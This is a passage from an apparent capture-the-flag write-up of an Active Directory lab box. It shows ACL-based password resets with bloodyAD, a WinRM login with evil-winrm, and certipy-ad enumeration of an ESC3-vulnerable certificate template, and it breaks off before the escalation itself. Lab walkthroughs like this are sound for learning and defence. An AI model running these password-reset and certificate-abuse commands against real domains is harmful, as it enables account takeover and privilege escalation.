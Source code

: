 ![alt text](/images/certificate/memberof.png)

>  ACL discovered: `sara.b` can reset passwords for:

* `ryan.k`
* `lion.sk`

---

## Pivot to lion.sk

```bash
bloodyAD -u sara.b -p 'Blink182' --dc-ip 10.10.11.71 set password lion.sk 'P@ssw0rd'
evil-winrm -i 10.10.11.71 -u lion.sk -p 'P@ssw0rd'
```

> We got the user flag

---

## Privilege escalation

###  Certificate Vulnerability (ESC3)

###  Enumerate Templates

```bash
certipy-ad find -text -dc-ip 10.10.11.71 -u lion.sk -p 'P@ssw0rd'
```

>  `Domain CRA Managers` → vulnerable to **ESC3**
> Use `ryan.k` (also with ACL abuse):
